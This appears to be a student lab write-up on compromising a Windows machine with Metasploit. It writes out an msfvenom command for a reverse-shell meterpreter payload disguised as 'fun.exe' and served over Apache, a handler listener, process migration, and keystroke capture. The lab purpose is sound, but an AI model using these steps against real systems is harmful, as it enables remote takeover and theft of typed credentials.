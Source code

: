 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

```
NAME : VARSHINI S A
REGISTER NUMBER : 212222100059
```

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2024-04-29 204511](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/08197f7d-0ab9-4a3b-8df9-c7c70e83e41d)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![Screenshot 2024-04-29 204544](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/5c084377-09b8-4430-95f1-bb952e3d3b5c)


#### copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/0fed7549-d5a6-445e-8c94-ae3a6294d050)



#### Start apache server sudo systemctl apache2 start

![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/0e80fcac-7d4b-405c-8f00-1a70421fca3b)


#### Check the status of apache2
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/963f37a2-9f73-4b9d-aa9f-13c1432613f3)

Invoke msfconsole:
## OUTPUT:

![Screenshot 2024-04-29 204808](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/970ca074-b231-40ee-bf3f-81a65b6c534c)




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![Screenshot 2024-04-29 205928](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/b58e80cf-6c8c-4917-9dfb-5c0b18626b3f)

```
/*
Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
*/
```

![Screenshot 2024-04-29 210014](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/eddeb6f2-f369-4e62-8d5f-f84094478776)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/a052e59c-d560-4502-bb60-8ee7dd7b89e2)


Bypass any warning boxes, double-click the file, and allow it to run.
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/b9906630-9108-487d-8073-3e2a560d8483)


On kali give the command exploit
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/6a1e5be1-a317-492a-906a-43c773a37fe9)



To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/2f7d996b-2036-4ff2-a8fe-2063d7858eb1)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/619ff40d-cba1-4749-a23c-5d1c624f2dff)


Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.


keyscan_dump	Shows the keystrokes captured so far
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/5f0af326-0a94-4e9d-8fed-fbb221ef9634)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
